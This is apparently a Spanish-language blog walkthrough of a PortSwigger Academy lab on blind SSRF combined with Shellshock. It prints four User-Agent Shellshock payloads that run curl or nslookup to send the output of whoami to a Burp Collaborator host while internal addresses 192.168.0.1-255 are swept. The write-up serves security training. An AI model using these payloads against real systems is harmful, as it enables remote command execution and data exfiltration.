






+++
author = "Alux"
title = "Portswigger Academy Learning Path: Server-side request forgery (SSRF) Lab 7"
date = "2022-01-22"
description = "Lab: Blind SSRF with Shellshock exploitation"
tags = [
    "ssrf",
    "server-side request forgery",
    "portswigger",
    "academy",
    "burpsuite",
]
categories = [
    "pentest web",
]
series = ["Portswigger Labs"]
image = "head.png"
+++

# Lab: Blind SSRF with Shellshock exploitation

En este <cite>laboratorio[^1]</cite>la finalidad es poder realizar ataques de ssrf que esta vulnerabildad trata de realizar solicitudes hacia otros dominios o ip arbitrarias a la cual el host puede tener acceso como puede ser una red interna a la que no se podria tener acceso desde afuera pero esta vez no es tan interna.



## Reconocimiento

Viendo la web y la informacion que nos da el lab es que el sistema envia la url al terminar de cargar toda la pagina y esto a traves del `Referer Header`. Y tambien se nos da e entender que uno de los sistemas es vulnerable a `Shellshock` por lo que debemos explotarlo para enviar el usuario de ese sistema dentro de la red y sustraer su usuario.




## Explotacion

Sabiendo esto preparamos nuestra peticion enviando cualquiera de las siguientes inyecciones en el `User-Agent` para explotar Shellchock que lo que hara es enumerar ya sea el nombre de dns con el nombre del usuario del sistema o hacer una peticion para la solicitud de la web pero claramente inyectando el nombre de usuario.

```
User-Agent: () { :; }; /usr/bin/curl $(whoami).qb5jf0ce8ttcnwvxrfeco4y0zr5kt9.burpcollaborator.net
User-Agent: () { :; }; /usr/bin/nslookup $(whoami).qb5jf0ce8ttcnwvxrfeco4y0zr5kt9.burpcollaborator.net
User-Agent: () { :; }; /usr/bin/curl `whoami`.qb5jf0ce8ttcnwvxrfeco4y0zr5kt9.burpcollaborator.net
User-Agent: () { :; }; /usr/bin/nslookup `whoami`.qb5jf0ce8ttcnwvxrfeco4y0zr5kt9.burpcollaborator.net
```

Y todo esto lo hacemos en el rango de ips `192.168.0.1-255` hacia la pagina de inicio





Y hemos recibido una peticion en Burp Collaborator con el nombre de usuario del sistema que es vulnerable a shellshock.



Y ahora ya hemos resuelto el lab automaticamente.



[^1]: [Laboratorio](https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation)